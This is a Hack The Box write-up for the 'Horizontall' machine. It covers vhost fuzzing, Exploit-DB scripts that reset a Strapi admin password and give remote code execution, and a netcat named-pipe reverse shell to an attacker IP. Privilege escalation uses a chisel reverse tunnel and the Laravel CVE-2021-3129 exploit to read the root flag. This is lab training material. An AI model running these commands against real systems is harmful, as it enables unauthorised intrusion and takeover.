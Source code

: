 ```yaml
---
layout: single
title: Horizontall HTB writeup
excerpt: "Easy linux machine in which we exploit strapi and forward a lavarel port to exploit it"
date: 2022-01-09
classes: wide
header:
  teaser: /assets/images/horizontall/icon-horizontall.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - strapi
  - port forwarding
---
```


![](/assets/images/horizontall/horizontall.png)

# HORIZONTALL
### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.105
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
```

Nothing interesting appears fuzzing for directories or file, So I tried scanning for virtual hosts

```bash
[kali@kali ~]$ ffuf -w ~/wordlist/subdomains-top1million-110000.txt:FUZZ -u http://horizontall.htb/ -H 'Host: FUZZ.horizontall.htb' -fs 194 -v -t 200
...
[Status: 200, Size: 901, Words: 43, Lines: 2]
| URL | http://horizontall.htb/
    * FUZZ: www

[Status: 200, Size: 413, Words: 76, Lines: 20]
| URL | http://horizontall.htb/
    * FUZZ: api-prod
```

Now lets fuzz the VHOST api-prod

```bash
[kali@kali ~]$ ffuf -w ~/wordlist/directories.txt -u http://horizontall.htb/FUZZ -v -t 200
...
[Status: 200, Size: 854, Words: 98, Lines: 17]
| URL | http://api-prod.horizontall.htb/admin
    * FUZZ: admin

```
If we check the page we'll find a strapi login page, and searching for strapi vulnerabilities we found https://www.exploit-db.com/exploits/50239, so let's run it.
(you can check the strapi version in http://api-prod.horizontall.htb/admin/init)

```bash
[kali@kali ~]$python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNzQwODgwLCJleHAiOjE2NDQzMzI4ODB9.luB-yz5Zzm5mWVVSJBL34oBFohrjjTdSqtRV7m9hvvY
```

Searching for this exploit I found another one that requires a JWT token so let's try to make a reverse shell with it https://www.exploit-db.com/exploits/50238
```bash
[kali@kali ~]$ nc -lnvvvp 5555
...
[kali@kali ~]$ python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNTg2NjM5LCJleHAiOjE2NDQxNzg2Mzl9.ZUJptHdyrooFivW8npIG_JVsBKGrimccmY6QC14mGv4 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 5555 >/tmp/f" 10.10.14.243

[+] Successful operation!!!

```

Let's get user flag then

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ cat home/developer/user.txt
```

### Root flag

```bash
strapi@horizontall:~/myapi$ netstat -antlp | grep LISTEN
netstat -antlp | grep LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1835/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

If we try looking at ports with curl we will find something interesting in port 8000 so let's do a remote port forwarding to see it from our browser

```bash
[kali@kali ~]$ cp /usr/bin/chisel .
[kali@kali ~]$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
...
strapi@horizontall:~/myapi$ wget http://10.10.14.243:80/chisel
wget http://10.10.14.243:80/chisel
--2022-01-09 15:18:38--  http://10.10.14.243/chisel
Connecting to 10.10.14.243:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8750072 (8.3M) [application/octet-stream]
Saving to: ‘chisel.1’

chisel.1            100%[===================>]   8.34M  7.27MB/s    in 1.1s

2022-01-09 15:18:40 (7.27 MB/s) - ‘chisel.1’ saved [8750072/8750072]

strapi@horizontall:~/myapi$ chmod a+x chisel

```

```bash
[kali@kali ~]$ chisel server -p 1234 --reverse
2022/01/09 10:03:21 server: Reverse tunnelling enabled
2022/01/09 10:03:21 server: Fingerprint agr0rkd/+jKcuiD83s9b2zKVGbRv6r07aAVo6oRGxmg=
...
strapi@horizontall:~/myapi$ ./chisel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
<isel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
2022/01/09 15:24:41 client: Connecting to ws://10.10.14.243:1234
2022/01/09 15:24:41 client: Connected (Latency 51.978835ms)
```

We see a Laravel webpage if we search for "Lavarel port forwarding exploit" we find https://github.com/nth347/CVE-2021-3129_exploit.
So let's try it out

```bash
[kali@kali ~]$ /exploit.py http://localhost:8080 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2776, done.
remote: Counting objects: 100% (1118/1118), done.
remote: Compressing objects: 100% (640/640), done.
remote: Total 2776 (delta 459), reused 955 (delta 334), pack-reused 1658
Receiving objects: 100% (2776/2776), 412.30 KiB | 1.93 MiB/s, done.
Resolving deltas: 100% (1101/1101), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited
```
